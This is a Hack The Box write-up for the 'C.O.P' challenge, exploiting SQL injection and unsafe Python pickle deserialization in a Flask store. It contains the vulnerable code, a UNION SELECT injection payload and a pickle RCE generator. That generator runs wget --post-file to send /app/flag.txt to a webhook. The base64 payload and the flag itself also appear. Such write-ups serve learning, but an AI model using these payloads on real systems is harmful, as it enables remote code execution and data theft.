


C.O.P - HTB Writeup
TLDR;
Sql injection + unsafe python pickle deserilization
Description
The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!
Code analysis
The website showcases items for sale specifically “pickle” items, which can immediatly hint towards unsafe pickle vulnerability.
Reading the code we can tell we’re on the right track, there’s a global template filter used by the jinja engine to render out the items from the store, but how can we supply our own malicious pickled object? there are no inputs!
@app.template_filter('pickle')
def pickle_loads(s):
return pickle.loads(base64.b64decode(s))
Reading more in the models.py we see there is an SQL injection
# routes.py
@web.route('/view/<product_id>')
def product_details(product_id):
return render_template('item.html', product=shop.select_by_id(product_id))
# models.py
from application.database import query_db
class shop(object):
@staticmethod
def select_by_id(product_id):
return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)
@staticmethod
def all_products():
return query_db('SELECT * FROM products')
We can confirm it with a simple payload : http://x.x.x.x/view/1' or 1=1 --
So now what? well as seen in the template code and the definition of the global pickle filter it’ll just load the pickle
<!--index.html-->
<div class="container px-4 px-lg-5 my-5">
<div class="row gx-4 gx-lg-5 align-items-center">
{% set item = product | pickle %}
<div class="col-md-6"><img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." /></div>
<div class="col-md-6">
<h1 class="display-5 fw-bolder">{{ item.name }}</h1>
<div class="fs-5 mb-5">
<span>£{{ item.price }}</span>
</div>
<p class="lead">{{ item.description }}</p>
</div>
</div>
</div>
So what if we can “select” our own payload? let’s try it!!
Exploit
This is the script i used to generate the malicious pickle
import pickle
import pickletools
import base64
import os
import subprocess
# this is our exploit object with the rce
class x(object):
def __reduce__(self):
cmd = ['wget','--post-file=/app/flag.txt','WEBHOOK_URL']
return subprocess.check_output, (cmd,)
exploit_obj = x()
raw_pickle = pickle.dumps(exploit_obj, protocol=0)
payload = base64.b64encode(raw_pickle)
print(payload)
# output : Y2NvbW1hbmRzCmNoZWNrX291dHB1dApwMAooKGxwMQpWd2dldApwMgphVi0tcG9zdC1maWxlPS9hcHAvZmxhZy50eHQKcDMKYVZodHRwczovL3dlYmhvb2suc2l0ZS80Nzg5ZmQ2YS1iYjk4LTQ4MDYtODg3Ny05YjQ4MTEzNWFlMGYKcDQKYXRwNQpScDYKLg==
Okey but how is our payload gonna be loaded? well we can just select some data for the filter to load with a union payload:
1' union select 'payload_here' --
So the final SQL query looks like this : SELECT data FROM products WHERE id='1' UNION SELECT 'payload_here' --' So no matter what the first query does, it’ll “select” the payload and load it and unpickle it
This example showcases why this works, no matter what the first query wants, it’ll just load the second one.


There we got the flag !
Overall i loved this challenge because i’m still learning about unsafe pickling at the time of solving this challenge and gave me good insights on it
Flag: HTB{n0_m0re_p1ckl3_pr0paganda_4u}